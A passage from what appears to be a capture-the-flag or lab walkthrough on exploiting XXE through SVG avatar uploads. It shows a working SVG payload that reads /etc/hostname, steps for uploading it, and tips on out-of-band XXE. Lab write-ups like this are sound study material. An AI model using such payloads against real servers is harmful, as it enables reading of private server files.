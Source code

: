
The server returns a 500 error code but the connections were generated:

![image](https://github.com/user-attachments/assets/fc101481-fc13-4f33-8e5f-19153fe612a5)


---

#### 🔓 Step 2: Local File Read via XXE

Now exfiltrate the contents of `/etc/hostname`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink"
     width="300" height="200" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
````

🟢 Upload this as `test.svg`, attach it as your avatar, and submit the comment.

🖼 When you open your avatar in a new tab, the **contents of `/etc/hostname`** (e.g., `81da8cd96d3a`) will be visible inside the image.

 ![image](https://github.com/user-attachments/assets/941423e0-91fe-4248-85aa-670ef82cd206)

 If successful, the image renders the server's hostname.
    
  ![image](https://github.com/user-attachments/assets/b0a0abeb-fb96-4fed-a45a-12cb5420b2da)

  Submit the name of the hostname to solve the lab.

   ![image](https://github.com/user-attachments/assets/4e575b03-6137-4a07-9116-1a8fe4995024)

---


### 📌 Key Takeaways

* SVG files are **XML-based**, making them a good candidate for XXE if accepted.
* Use `image/svg+xml` content type during upload.
* Use **Apache Batik**, **lxml**, or other XML libraries to test locally.
* If the app doesn't render in response, test for **Out-of-Band (OOB)** XXE using Burp Collaborator.

---

### 🧠 Pro Tip

Many image processing pipelines (like Batik) parse SVGs and **execute embedded XML**, so even without full control over the backend, you can leak sensitive files if the image is rendered.


---

